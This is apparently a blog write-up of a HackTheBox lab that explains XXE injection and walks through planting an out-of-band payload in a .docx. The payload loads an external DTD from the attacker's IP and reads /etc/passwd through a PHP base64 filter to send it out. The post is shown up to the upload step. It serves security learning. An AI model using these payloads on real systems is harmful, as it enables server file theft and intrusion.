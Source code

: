 ```yaml
---
layout: single
title: "XXE injection with local DTD file and PHP filter."
excerpt: "A short brief explaination + walkthrough for XXE injection attack and how it works."
date: 2020-06-07
header:
  teaser: /assets/images/Stripe-Vulnhub/vulnhub.png
  teaser_home_page: true
classes: wide
categories:
  - bug-hunting
tags:
  - web-app
  - xxe
  - file-read
---
```


In this short article I'm going to make a short explaination of the XXE injection, how it works and how it can be used into any vulnerable app using a local DTD file.

First lets take a look from an usual dummy paragraph of what a XXE injection is...

## What is a XML external entity (XXE) injection? 
XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access.

In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other backend infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks.

## What are some types of a XXE attack?

There are various types of XXE attacks:

- Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the  
  application's response.
- Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.
- Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the   attacker controls.
- Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive   data.

In this article I'm going to explain how we can retrieve files from the system through a vulnerable doc-upload web application.
Lately I came through an interesting machine in HackTheBox (Patents) which represented a simple website with an upload form where I could upload docx files to the web server.

My first thought when I saw I could upload ``.docx`` files was that I could possibly inject macro code or usual injections to have a possible ``Remote Command Execution`` to the server but as expected it wasn't meant to be that easy, so I started to dig in more in Google to find new possibilities of injection attacks through .docx files.

While searching a came accross https://portswigger.net/web-security/xxe which helped me the most to understand the basics of a XXE attack and later I could use https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection to test some payloads in the remote server and see if it could work.

## Exploitation 
First I went to https://docs.google.com/ to create a .docx and download it to my machine to make further edits to it and inject some XML code.

![docs](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/xxe-injection/xxe1.PNG)

After it is downloaded I can unzip the document and make edits to the xml file:

```console
root@kali:~# unzip exploit.docx
inflating: word/numbering.xml
inflating: word/_rels/fontTable.xml.rels
inflating: _rels/.rels
inflating: [Content_Types].xml
inflating: DS_Store
inflating: docProps/app.xml
inflating: docProps/core.xml
[...]
```

We see a bunch of xml files that together make the `docx` file functionable. 
From here we can create a folder named `CustomXML` and put our malicious xml files inside ``item1.xml`` , ``item2.xml`` and so on.

So first I created the folder and used a payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-oob-with-dtd-and-php-filter) and injected it into the ``item1.xml`` with the following content :

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.x.x/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

where ``10.10.x.x`` is our ip.

We can easily tell from the code that the ``item1.xml`` will try to call ``dtd.xml`` from our server and then do the attack through it.
So I also made a copy of ``dtd.xml`` in my machine with the following content and saved it to my machine : 

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

Next thing , I am going to zip back the `.docx` document with the new ``CustomXML`` folder in it , host the ``dtd.xml`` file using python web server and see how it goes.

```console
root@kali:~# zip -u exploit.docx customXml/item1.xml
```

Hosting the DTD file using :

```console
root@kali:~# python3 -m http.server 80
```

We are going to upload through the web app and see if we will get the results in the generated PDF file :

![upload](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/xxe-injection/xxe2.png)
